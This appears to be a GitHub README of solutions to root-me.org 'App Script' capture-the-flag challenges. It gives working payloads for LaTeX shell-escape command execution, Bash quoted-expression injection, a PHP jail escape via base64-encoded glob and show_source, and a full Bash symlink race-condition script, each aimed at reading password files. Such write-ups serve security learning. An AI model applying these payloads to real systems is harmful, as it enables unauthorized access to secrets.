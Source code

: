 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```
### BASH - Race condition
[BASH - Race condition](https://www.root-me.org/fr/Challenges/App-Script/Bash-race-condition)

### Payload

First create a file in /tmp folder :

```bash
vi /tmp/pwned.sh
```
Then give them the rights :
```bash
chmod u+x /tmp/pwned.sh
```
 
Then copy the following script in the file :
```bash
#!/bin/bash


DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then

            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
            	kill -SIGSTOP $1
            	echo -n "data" > $FOUND_DIRS/pwned_file
            	kill -SIGCONT $1
           		ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    while : ; do
       					kill -SIGSTOP $1
                    	unlink $FOUND_DIRS/pwned_file
    					echo -n "data" > $FOUND_DIRS/pwned_file
    					ln -sf ~/.passwd $FOUND_DIRS/pwned_file
    					kill -SIGCONT $1
    				[[ -e "$FOUND_DIRS" ]] || break
					done
                    break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
```
This scipts do a infinite loop and monitor the directories created by the challenge script, when he found a directory in /tmp that matchs he creates a symlink to $HOME/.passwd
in order to do a race condition exploit on this command of the challenge script :
```bash 
find "$temp_dir" -type f -size 4c -exec cat {} + 
```

As stated here [Race condition with exec](https://www.gnu.org/software/findutils/manual/html_node/find_html/Race-Conditions-with-_002dexec.html)

Then lauch it like this :
```bash
~/wrapper & /tmp/pwned.sh $!
```

Where $! is the pid of the processus ~/wrapper
At the moment, the race is not always won by the script so relaunch it until you have a valid flag

